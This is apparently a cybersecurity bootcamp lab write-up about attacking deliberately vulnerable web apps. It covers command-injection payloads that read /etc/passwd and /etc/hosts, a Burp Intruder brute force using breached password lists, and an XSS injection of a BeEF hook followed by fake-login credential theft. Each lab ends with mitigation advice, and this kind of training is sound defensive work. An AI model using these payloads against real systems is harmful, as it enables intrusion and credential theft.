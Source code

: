 ## Web Application 1: Your Wish is My Command Injection
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         cd ./Documents/web-vulns && docker-compose up
      ```

    * Open a browser and navigate to the following webpage: http://192.168.13.25

    * The web page should look like as the figure below

    * Log in with the following credentials:
      *    Usernmae: admin
      *    Password: password

    * Select the **Command Injection** or access this page directly http://192.168.13.25/vulnerabilities/exec/
    * Entering the IP address `8.8.8.8` press **Submit** to see the results display on the web application.

![Web Application 1_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%201_1.png)


* Behind the scenes, when we select Submit, the IP you type in the field is injected into a command that is run against the Replicants webserver. The specific command that ran on the webserver is `ping <IP>` and `8.8.8.8` is the field value that is injected into that command.


2.  Now that we have determined that Replicants new application is vulnerable to command injection, we will tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:

      - `/etc/passwd`
   
      - `/etc/hosts`


<details>
<summary> <b> Click here to view Design Command Injection Payloads. </b> </summary>

---

#### How to manipulate the input to cause an unintended result 
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%201_cat_passwd_1.png)
![Web Application 1_cat_passwd_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%201_cat_passwd_2.png)

- On the same webpage, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%201_cat_passwd_1.png)
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_4](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%201_4.png)

- On the web browser, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_5.png)
   

#### Mitigation Strategies

1. **Input validation** is a method to validate the data input with a predefined logic, ensuring that the input is what the application is expecting. Input validation can be applied on the client-side or the server-side. For example,
   
|          | Function | Example    |
|----------|----------|------------|
| **Client-side**| Input validation involves coding the predefined logic into the webpage.                   | An input can only be chosen from a predefined drop-down menu.     |
| **Server-side**| Input validation involves adding the predefined logic into the code on the web server.    | If a user enters a malicious SQL code and selects submit, then the web server will check and remove it after receiving this malicious input.     |

2. **Avoid Command-Line Calls Altogether** The first prevention method you can do is avoiding command line calls. Because when we’re using command lines, it opens users to risk such as command injection. 
   
3. **Use Built-in APIs Instead of OS Commands** Another method is to shift from using Operating System (OS) commands to much-safer APIs, considering that most reputable APIs have built-in security measures. 
   
4. **Reject Unacceptable Code** We can also use server-level protection, which is blacklisting a set of codes. Simply by only allowing the codes we and our team built prevents any other code from accessing the server. Thus, creating a barrier between the malicious codes and the whole server.
   
5. **Escaping Shell Metacharacters** Also, to prevent any other characters and limit the output of commands, we can use escaping shell metacharacters. This method allows us to expressly grant access depending on the variables. Our developer can set these variables based on our needs.    
   
   
</details>

---


## Web Application 2: A Brute Force to Be Reckoned With
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         sudo burpsuite
      ```

    * Open the Firefox browser and navigate to the following webpage: http://192.168.13.35/install.php.

    * The web page should look like as the figure below. Click **here** to install bWapp.

    * After successfully installing bWapp, log in with the following credentials:
       - Username: bee
       - Password: bug


    * To access the application where we will perform our activity, enter in the following URL: http://192.168.13.35/ba_insecure_login_1.php
    
    * On Firefox browser, make sure the FoxyProxy settings is set to **Burp**.

![Web Application 2_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_1.png)

- This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login:
     - Username: test-user
     - Password: password

![Web Application 2_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_2.png)

* Following was displayed in the Burp Suite in **Proxy** tab under the Intercept - Highlighting the **Login and password** credentials.

![Web Application 2_3](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_3.png)

* From the web application tool Burp Suite, on the **Intercept** tab, right click anywhere to send the information to **Intruder** 
 
   -  Select the **Intruder** tab, and verify the Target tab

![Web Application 2_4](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_4.png)
![Web Application 2_5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_5.png)

   -  Select the **Positions** tab and change the attack type to **Cluster bomb**, also **clear** all payload positions, except for the login and password credentials.

![Web Application 2_6](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_6.png)

* We've been provided with a list of administrators and the breached passwords:
* [ ] [List of Administrators](listofadmins.txt)
* [ ] [Breached list of Passwords](breached_passwords.txt)


<details>
<summary> <b> Click here to view How to conduct a brute force attack. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 
   
* Select **Payloads** tab and enter the [List of Administrators](listofadmins.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 1  

![Web Application 2_7](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_7.png)
   
- Add the password from the [Breached list of Passwords](breached_passwords.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 2  
   
![Web Application 2_8](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_8.png)

- Click the **Start** attack button to get the results.
   
![Web Application 2_9](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_9.png)

- Results from the analysis that was complete from the Intruder show that there was one successful login username/password combination. 
   
![Web Application 2_10](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_10.png)
   
- It was user name of **" tonystark"** and the password **"I am Iron Man"**. Below snapshots display the successful login in the **Response** tab.

![Web Application 2_11](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%202_11.png)
   

#### Mitigation Strategies

**Developers** can use several mitigation methods to protect against a brute force attack:

   1.) Require complex usernames and passwords:
For example, require the user to include special characters, upper and lowercase, and numbers in the username and password.

   2.) Lockout accounts after a number of failed attempts:
For example, after three failed login attempts, the user's account gets locked.

   3.) Use multi-factor authentication (MFA):
For example, require users to have a password and a secondary form of authentication, like a pin generated by an external token and/or requiring complex usernames and passwords. 
   
   
</details>

---


### Web Application 3: *Where's the BeEF?*

1. Access Vagrant, open the terminal and and run the command

```
sudo beef
```
When prompted for a password, enter `cybersecurity`.

2. This will kick off the BeEF application and return many details about the application to your terminal. We can access to BeEF's User Interface (UI) by right-click the first URL and select Open Link `UI_URL: http://127.0.0.1:3000/ui/panel`. 

   - When the BeEF webpage opens, login with the following credentials:
     - Username: `beef`
     
     - Password: `feeb`

     ![wd_hw11](Images/wd_hw11.png)

   - You have successfully completed the setup when you have reached the **BeEF Control Panel** shown in the image below:

     ![wd_hw12](Images/wd_hw12.png)

3. Prepare the Replicants website, from the Terminal in Vagrant navigate to ~/Documents/web-vulns directory by

```
cd ~/Documents/web-vulns
```
and run the command

```
sudo docker-compose up
```
![Web Application 3_3.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_3.png)

   - Go to the web browser and enter the following in the address bar `http://192.168.13.25/vulnerabilities/xss_s/` then reset the database and login with the following credentials:
     - Username: `admin`
     
     - Password: `password`
     
     
3. The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
![Web Application 3_4.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_4.png)

- The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`. 

- When trying to inject the payload there was an issue found, in the message box field, there was a limit of `maxlength="50"` character in the source code. Therefore we could not inject the payload.
![Web Application 3_5.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_5.png)

- Solution to solve this issue, right-click on web page < click **Inspector** < In **Inspector windows** scrolling down till we see the `<textarea name="mtxMessage"
cols="50" rows="3" maxlength="50">` then now we can edit from 50 to any bigger number  
![Web Application 3_6.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_6.png)

Now we are able to hook into Replicants website, so next we will attempt a couple BeEF exploits including:

   - Social Engineering >> Pretty Theft

   - Social Engineering >> Fake Notification Bar

   - Host >> Get Geolocation (Third Party)


<details>
<summary> <b> Click here to view How to Exploiting XSS with BeEF. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 

- First, we'll attempt a social engineering exploit to create a fake Log-in to user. We can use this to capture victim credentials.
- To access this exploit, navigate to **BeEF Control Panel** < select current hooked browser < go to **Commands** tab < expanding **Social Engineering** < click **Google Phishing**.
- To launch th exploit, click **Execute** button in the bottom right corner.

![Web Application 3_8.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_8.png)   

- After executed, return to the browser that has been changed to a Google Mail Login page.     
   
![Web Application 3_9.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_9.png)
   
- The victim could easily mistake entering their credentials. Use the following credentials to login to this fake Google Mail page.
   
![Web Application 3_10.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_10.png)   
   
- Return to the BeEF control panel, in the center windows we'll see the module history command. Click that command to see the results in the last windows panel.
   
![Web Application 3_11.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_11.png)  
   
- As we saw, the username and password have been captured. Now we can try on another method as the following:
   
   - Social Engineering >> Pretty Theft

![Web Application 3_12.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_12.png) 
   
![Web Application 3_13.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_13.png) 
   
![Web Application 3_14.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_14.png) 

   - Social Engineering >> Fake Notification Bar
![Web Application 3_15.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_15.png) 

   - Host >> Get Geolocation (Third Party)
![Web Application 3_16.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web%20Vulnerabilities%20and%20Hardening/Images/Web%20Application%203_16.png)
   
#### Mitigation Strategies

**BeEF** is an exploitation tool that focuses on a specific client-side application: the web browser. BeEF allows an attacker to inject a JavaScript code into a vulnerable HTML code using an attack such as XSS or SQL injection. This exploit code is known as hook. A compromise is achieved when the hook is executed by the browser. The browser (zombie) connects back to the BeEF application, which serves JavaScript commands or modules to the browser. BeEF's modules perform tasks such as the following:

   1.) Fingerprinting and the reconnaissance of compromised browsers. It can also be used as a platform to assess the presence of exploits and their behavior under different browsers.

   2.) Detecting software on the client (Internet Explorer only) and obtaining a list of the directories in the Program Files and Program Files (x86)directories. This may identify other applications that can be exploited to consolidate our hold on the client.

   3.) Taking photos using the compromised system's webcam; these photos have a significant impact in reports.
   
   4.) onducting searches of the victim's data files and stealing data that may contain authentication credentials (clipboard content and browser cookies)  or other useful information.
   
   5.) Implementing browser keystroke logging.
   
   6.) onducting network reconnaissance using ping sweeps and fingerprint network appliances and scanning for open ports.
   
   7.) Launching attacks from the Metasploit Framework.
   
   8.) Using the tunneling proxy extension to attack the internal network using the security authority of the compromised web browser.
   
Because BeEF is written in Ruby, it supports multiple operating systems (Linux, Windows, and OS X). More importantly, it is easy to customize new modules in BeEF and extend its functionality.
   
There may be both technical recommendations (e.g., applying a particular patch) and non-technical recommendations that address the organization’s processes (e.g., updating the patch management process).

1. Deployment of OS and application patches. Maintaining and updating a patch management program is a necessary component in reducing the attack surfaces. 

2. Security architecture changes. External and Internal networks should be separated by different trust boundaries, with packet filtering controls at the nodes in order to reduce an attacker’s access to sensitive information.

3. Review file permissions and use the least privilege principle.

4. Conduct regular vulnerability assessments. Regular vulnerability assessments are needed for the timely discovery and patching of new previously undiscovered vulnerabilities.
   
5. Defend web applications against the OWASP Top 10 Security Risks - Policy, process, and procedure modifications including deployment of new security technologies.   
   
   
   
</details>

---




---

### Citations and References:

#### General Resources:

- InfoTech News. Command Injection: What It Is And How To Prevent It. [cited 2021 September 29]. Available from: [meterpreter.org](https://meterpreter.org/command-injection-what-it-is-and-how-to-prevent-it/).
- Akshat Khare. Parth Chopra. Rahul Motwani. Web Applications Penetration Testing. Center of Excellence in Cyber Systems and Information Assurance (CoE-CSIA), IIT Delhi. [cited 2021 October 1]. Available from: [cse.iitd.ac.in](https://www.cse.iitd.ac.in/~cs1160315/WebPenetrationTesting.pdf)
- Karen Scarfone (NIST), Murugiah Souppaya (NIST), Amanda Cody (BAH), Angela Orebaugh (BAH). Technical Guide to Information Security Testing and Assessment. NIST National Institute of Standards and Technology. [cited 2021 October 1]. Available from:[nist.gov/publications](https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-115.pdf).
- Robert W. Beggs. Mastering Kali Linux for Advanced Penetration Testing. ISBN 978-1-78216-312-1. Packt Publishing Ltd. [cited 2021 October 1]. Available from: [Mastering Kali Linux for Advanced Penetration Testing 3rd Edition](https://www.amazon.com/Mastering-Linux-Advanced-Penetration-Testing/dp/178934056X)


#### Special thanks:
© Trilogy Education Services, a 2U, Inc., Instructor Jerry and TAs; Matt, Jansen, Micheal.

© The University of Texas at Austin Boot Camp, The Cybersecurity program.

---
